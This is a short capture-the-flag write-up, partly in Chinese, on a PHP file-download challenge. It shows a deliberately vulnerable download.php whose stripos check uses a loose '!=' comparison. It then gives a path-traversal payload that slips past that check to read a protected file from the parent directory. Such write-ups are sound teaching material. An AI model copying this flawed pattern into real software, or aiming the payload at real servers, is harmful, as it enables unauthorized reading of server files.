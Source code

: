 # Challlenge
download.php
```php
<?php
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

目标：读取位于上一层目录的file_list.php。

# Solution 
```
if(stripos($filename, 'file_list') != false) die();
```
strpos(str1,str2)返回字符串str2在字符串str1中的位置。如果`$filename`以file_list开头，则`stripos($filename, 'file_list')`会返回0，而采用的是`!=`，也就是说可能存在弱类型比较问题:0 == false。

payload:
```
download.php?f=file_list/../../file_list.php
```

# Refference
+ [TWCTF 2017-Freshen Uploader-writeup](https://chybeta.github.io/2017/09/02/TWCTF-2017-Freshen-Uploader-writeup/)
